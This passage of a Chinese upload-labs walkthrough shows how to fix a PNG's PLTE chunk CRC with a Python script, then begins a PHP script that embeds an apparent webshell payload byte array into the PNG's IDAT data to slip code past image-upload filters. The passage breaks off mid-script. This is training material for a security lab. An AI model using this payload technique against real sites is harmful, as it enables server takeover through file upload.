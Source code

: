     2. 计算 PLTE 数据块的 CRC 脚本

        ```python
        import binascii
        import re

        png = open(r'2.png','rb')
        a = png.read()
        png.close()
        hexstr = binascii.b2a_hex(a)

        ''' PLTE crc '''
        data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
        crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
        print hex(crc)
        ```
        运行结果 `526579b0`

    3. 修改 CRC 值

        ![image](../../../assets/img/安全/实验/upload-labs/15.png)

- **写入IDAT数据块**

    这里有国外大牛写的脚本,直接拿来运行即可.
    ```php
    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);



    $img = imagecreatetruecolor(32, 32);

    for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
    }
